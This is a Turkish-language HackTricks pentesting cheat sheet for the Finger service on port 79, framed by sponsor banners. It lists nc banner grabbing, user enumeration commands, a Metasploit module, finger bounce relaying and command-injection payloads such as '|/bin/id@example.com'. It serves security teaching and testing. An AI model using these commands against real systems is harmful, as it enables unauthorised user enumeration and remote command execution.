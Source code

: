 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin; bu araçlar keşiften raporlamaya kadar uzanır. Biz pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Temel Bilgiler**

**Finger** programı/hizmeti, bilgisayar kullanıcıları hakkında detaylar almak için kullanılır. Genellikle sağlanan bilgiler **kullanıcının giriş adı, tam adı** ve bazı durumlarda ek detayları içerir. Bu ek detaylar, ofis konumu ve telefon numarasını (varsa), kullanıcının giriş yaptığı zamanı, hareketsizlik süresini (boşta kalma süresi), kullanıcının en son okuduğu e-posta zamanını ve kullanıcının plan ve proje dosyalarının içeriğini kapsayabilir.

**Varsayılan port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Numaralandırma**

### **Afiş Yakalama/Temel Bağlantı**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Kullanıcı numaralandırma**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternatif olarak, [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) sitesinden **finger-user-enum** kullanabilirsiniz, bazı örnekler:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap, varsayılan betikleri kullanarak bir betik çalıştırır**

### Metasploit, Nmap'tan daha fazla hile kullanır
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Komut yürütme
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Bir sistemi finger relay olarak kullanın](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. Recon'dan raporlamaya kadar 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin. Pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
